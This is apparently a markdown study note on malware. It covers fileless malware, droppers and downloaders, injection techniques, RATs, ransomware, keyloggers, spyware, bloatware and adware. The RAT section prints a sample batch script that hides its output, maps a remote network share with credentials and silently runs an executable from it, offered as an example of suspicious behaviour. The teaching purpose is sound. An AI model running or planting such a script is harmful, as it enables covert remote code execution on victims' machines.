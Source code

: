 ```yaml
---
title: "Malware"
tags: 
- security
- Cybersecurity
sidebar_position: 20
last_update:
  date: 1/30/2024
---
```



## Overview

A **malware** is a software that is detrimental to the operations of the host. In the old days, all malware starts out as a virus, which spreads across a network and replicates only through definite user interaction.

A **malware attack** is an exploit technique is a specific method by which malware code infects a target host.

- Malware can assert malicous macro into a document file.
- Other malware focused on infecting the memory or other resources.
- Modern malware uses file-less techniques to avoid detection.

**PUPs or Potentially Unwanted Programs** are softwares that may have negative or undesirable effects.

- Crapware, adware, spyware, bloatware

## Fileless Malware

Used to create a process in the system memory without relying on the local file.

- Difficult to detect; leaves very few traces of indicators of compromise.
- Some temporarily write data, but they also erase those artifacts after execution.

## Two-stage Deployment

Most modern malware uses a two-stage deployment.

**Step 1: Dropper or Downloader**

- When a user clicks a malicious link, opens a malicious file, which then installs the malware.
- Usually created as a lightweight shell code that can be executed on a given system.
- **Dropper** - Initiates/runs malware forms within a payload on an infected host.
- **Downloader** - Retrieves additional tools after the initial infection by the dropper.
- **Shellcode** - lightweight code meant to execute an exploit on a given target.

**Step 2: Downloader**

- Another downloader, installs remote access trojan (RAT).
- For Command and Control on the victimized system.

## Actions on Objective  

Once the attacker has spread his footprint on your network and they've established a stronghold, he can then transition into the "Action on Objectives" Phase. On thi phase, the attackers can then will execute their primary objectives.

## Concealment 

Final step of the attack. This will help the threat actor prolong unauthorized access to the system, which can be done by hiding tracks, erasing log files, or hiding any evidence.

## Malware Delivery 

### Common Deployment Techniques 

Common techniques to deploy malicious code:

- **Code Injection**
    - Inserts malicious code into a legitimate process's address space to execute under its context.

- **DLL Sideloading**
    - Loads a malicious DLL by placing it in a directory where a legitimate application will mistakenly load it.

- **DLL Injection**
    - Forces a running process to load a malicious DLL, enabling the attacker to control the process.

- **Masquerading**
    - Disguises malicious files or processes as legitimate ones to avoid detection.

- **Process Hollowing**
    - Replaces the code of a legitimate process with malicious code while the process is running, allowing the attacker to execute their code under the guise of the legitimate process.


### Living off the Land 

A strategy adopted by many Advanced Persistent Threats (APTs) and criminal organizations.

- Threat actors exploit standard system tools to perform intrusions.
- Example: manipulating powershell to conduct malicious activities.


## Remote Access Trojan (RAT)

A Remote Access Trojan (RAT) is malware that gives an attacker remote control over a victim’s computer. It can silently execute commands, steal data, install other malware, or spy on user activity.

- Earliest version is a testris game which infected with the trojan.
- The game is installed into floppy disks and share between friends.

As an example, the script below shows suspicious behavior often linked to RATs:

```
## Hides command output from the user
@echo off

## Disguises the script as a normal maintenance task
rem Update system components

## Connects to an external network share without user approval
net use Y: \\192.168.45.100\update_repo /user:update_agent /p:yes

## Runs a potentially malicious executable from the network share
Y:\utilities\update_sync.exe

## Removes the mapped drive to hide activity
net use Y: /delete 
```

The file `update_sync.exe`** exhibits characteristics typical of a **Remote Access Trojan (RAT)**:

- It's not approved or authorized by security controls
- Communicates with an external IP address
- Executes remote commands on the host system
- Can be used to exfiltrate data or deploy additional malware


## Ransomware

**Ransomware** is malicious software that locks or encrypts data and demands payment to restore access.

- Blocks access to a computer or files until the ransom is paid.
- Spreads via phishing emails, malicious attachments, or drive-by downloads.
- **Examples**: WannaCry, CryptoLocker, Ryuk.

Paying the ransom does not guarantee data recovery and may encourage repeat or broader attacks.

## Keylogger

A **keylogger** is software or hardware that captures every keystroke typed on a device, usually without the user’s knowledge.

- Originally created to help in troubleshooting.
- Captured key strokes are sent to the threat actor.
- Can be installed by malware or physical access to the device.
- Often used as part of spyware or targeted attacks.

## Spyware 

**Spyware** is unwanted software that secretly collects user data and monitors activity without consent.

- Tracks browsing habits, keystrokes, or system usage in the background.
- May send data to third parties for financial or surveillance purposes.
- Often bundled with free software or installed via phishing.
- Can degrade performance and pose serious privacy risks.


## Bloatware 

**Bloatware** refers to unnecessary or pre-installed software that consumes system resources without providing value to the user.

- Typically comes preloaded by manufacturers or vendors.
- Slows down system performance and startup time.
- May include trialware, ads, or partner apps that clutter the system.

While not inherently malicious, it can reduce user control and lead to vulnerabilities.


## Adware 

**Adware** is software designed to display or inject unwanted ads, often bundled with free programs.

- May redirect browser traffic, show pop-ups
- It can also change homepages/search engines
- Often installed during software downloads.
- Some adware tracks user behavior to serve targeted ads.

Though less harmful than spyware or ransomware, adwares still poses privacy and security concerns.